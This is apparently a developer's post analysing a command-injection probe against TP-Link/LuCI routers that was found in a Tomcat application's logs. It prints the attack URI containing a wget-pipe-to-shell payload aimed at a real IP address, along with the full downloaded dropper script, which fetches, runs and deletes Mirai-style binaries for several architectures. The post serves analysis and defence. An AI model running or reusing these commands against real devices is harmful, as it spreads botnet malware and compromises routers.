 Since my application uses Tomcat, which detected illegal characters (such as ;, |, $, + etc.) when parsing the HTTP request line, violating HTTP protocol (RFC 7230, RFC 3986);

Therefore, Tomcat refused to process the request and did not execute any commands. The application is secure, but it indicates that the application is being scanned/probed.

## Analysis

The attack URI is:
```text
[/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.59.40.187/x/tplink+-O-|sh) ]
```
I haven't seen the usage of `;` before, but after checking, I found it's a legitimate parameter passing method supported in embedded devices and older web frameworks.

`stok` is a field commonly used in TP-Link and OpenWRT (LuCI) devices to represent a "session token".

Regarding `country=$(wget+http://31.59.40.187/x/tplink+-O-|sh)`
If the server has a vulnerability, for example:
```shell
uci set system.@system[0].country="$country"
```
Or directly execute
```shell
eval "uci set system.@system[0].country=$country"

```
Then at this point:
```shell
$country = $(wget http://... | sh)
```
This would lead to the actual execution of:
```shell
wget http://31.59.40.187/x/tplink -O - | sh
```
This is equivalent to downloading and executing a malicious script remotely.


Subsequently, I obtained the content of `http://31.59.40.187/x/tplink`.

```shell
# TP-Link is aware of reports that the Remote Code Execution (REC) vulnerability detailed in CVE-2023-1389 in AX21 has been added to the Mirai botnet Arsenal.


cd /tmp; wget http://31.59.40.187/j/mle1; chmod 777 mle1; ./mle1 tplink; rm mle1
cd /tmp; wget http://31.59.40.187/j/mbe1; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
cd /tmp; wget http://31.59.40.187/j/aale1; chmod 777 aale1; ./aale1 tplink; rm aale1
cd /tmp; wget http://31.59.40.187/j/a5le1; chmod 777 a5le1;./a5le1 tplink; rm a5le1
cd /tmp; wget http://31.59.40.187/j/a7le1; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
cd /tmp; wget http://31.59.40.187/j/ppc1; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
cd /tmp; wget http://31.59.40.187/j/xle1; chmod 777 xle1; ./xle1 tplink; rm xle1
cd /tmp; wget http://31.59.40.187/j/xale1; chmod 777 xale1; ./xale1 tplink; rm xale1

#cd /tmp; tftp -g -r mle1 31.59.40.187; chmod 777 mle1; ./mle1 tplink; rm mle1
#cd /tmp; tftp -g -r mbe1 31.59.40.187; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
#cd /tmp; tftp -g -r aale1 31.59.40.187; chmod 777 aale1; ./aale1 tplink; rm aale1
#cd /tmp; tftp -g -r a5le1 31.59.40.187; chmod 777 a5le1;./a5le1 tplink; rm a5le1
#cd /tmp; tftp -g -r a7le1 31.59.40.187; chmod 777 a7le1; ./a7le1 tplink; rm a7le1
#cd /tmp; tftp -g -r ppc1 31.59.40.187; chmod 777 ppc1; ./ppc1 tplink; rm ppc1
#cd /tmp; tftp -g -r xle1 31.59.40.187; chmod 777 xle1; ./xle1 tplink; rm xle1
#cd /tmp; tftp -g -r xale1 31.59.40.187; chmod 777 xale1; ./xale1 tplink; rm xale1

cd /tmp; ftpget 31.59.40.187 mle1 mle1; chmod 777 mle1; ./mle1 tplink; rm mle1
cd /tmp; ftpget 31.59.40.187 mbe1 mbe1; chmod 777 mbe1; ./mbe1 tplink; rm mbe1
cd /tmp; ftpget 31.59.40.187 aale1 aale1; chmod 777 aale1; ./aale1 tplink; rm aale1
```
